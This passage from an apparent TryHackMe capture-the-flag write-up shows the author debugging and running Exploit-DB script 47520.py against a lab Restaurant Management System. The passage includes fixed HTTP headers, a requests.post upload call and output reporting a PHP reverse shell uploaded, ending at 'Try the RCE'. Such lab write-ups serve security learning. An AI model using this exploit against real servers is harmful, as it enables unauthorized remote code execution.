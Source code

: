 ```
    "Connection": "close",
	"Referer": "http://localhost:8081/rms/admin/foods.php",
	"Cookie": "PHPSESSID=4dmIn4q1pvs4b79",
	"Upgrade-Insecure-Requests": "1"

}
```
That is an issue with the **hearder** format. Let's update it.
```
headers = {
 40     "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0",
 41     "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
 42     "Accept-Language": "en-US,en;q=0.5",
 43     "Accept-Encoding": "gzip, deflate",
 44     "Content-Length": "327",
 45     "Content-Type": "multipart/form-data; boundary=---------------------------191691572411478",
 46     "Connection": "close",
 47     "Referer": "http://localhost:8081/rms/admin/foods.php",
 48     "Cookie": "PHPSESSID=4dmIn4q1pvs4b79",
 49     "Upgrade-Insecure-Requests": "1"
 50
 51 }
```

One more time, another error.
```
  File "/Users/laurentnebout/Documents/LOLO_Share/THM/47520.py", line 70
    print("[+] Shell Uploaded. Please check the URL :
                                                     ^
SyntaxError: EOL while scanning string literal
```
Let's check this line
```
print("[+] Shell Uploaded. Please check the URL :
"+url+"images/reverse-shell.php")
```
Also, comment the **proxy** and update the format here too.
```
r = requests.post(target,verify=False, headers=headers,data=data)
#proxies={"http":"http://127.0.0.1:8080"})
```
Another format issue ^^; The appropriate format:
```
print("[+] Shell Uploaded. Please check the URL :"+url+"images/reverse-shell.php")
```
Let's launch the script
```
python3 ./usr/share/exploitdb/exploits/php/webapps/47520.py http://10.10.141.50:12340/rms/

    _  _   _____  __  __  _____   ______            _       _ _
  _| || |_|  __ \|  \/  |/ ____| |  ____|          | |     (_) |
 |_  __  _| |__) | \  / | (___   | |__  __  ___ __ | | ___  _| |_
  _| || |_|  _  /| |\/| |\___ \  |  __| \ \/ / '_ \| |/ _ \| | __|
 |_  __  _| | \ \| |  | |____) | | |____ >  <| |_) | | (_) | | |_
   |_||_| |_|  \_\_|  |_|_____/  |______/_/\_\ .__/|_|\___/|_|\__|
                                             | |
                                             |_|



Credits : All InfoSec (Raja Ji's) Group
[+] Restaurant Management System Exploit, Uploading Shell
[+] Shell Uploaded. Please check the URL :http://10.10.141.50:12340/rms/images/reverse-shell.php
```
Try the RCE